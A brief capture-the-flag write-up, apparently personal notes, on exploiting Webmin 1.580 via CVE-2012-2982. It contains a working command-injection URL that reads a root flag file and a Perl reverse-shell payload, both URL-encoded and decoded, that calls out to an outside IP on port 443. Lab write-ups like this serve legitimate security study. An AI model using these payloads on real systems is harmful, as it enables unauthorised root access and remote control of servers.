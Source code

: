 
![[Images/Pasted image 20240610113451.png]]

Webmin 1.580

old user could log in

Searched for "Webmin 1.580"

/file/show.cgi has RCE CVE-2012-2982


`http://localhost:10000/file/show.cgi/bin/abcde|cat%20/root/root.txt|`
got root.txt
a4b945830144bdd71908d12d902adeee


sending bash revsh payloads failed but perl worked just fine:
`http://localhost:10000/file/show.cgi/bin/abcde|perl%20-e%20%27use%20Socket%3B%24i%3D%2210.18.21.236%22%3B%24p%3D443%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fbash%20-i%22%29%3B%7D%3B%27|`

```perl
perl -e 'use Socket;$i="10.18.21.236";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

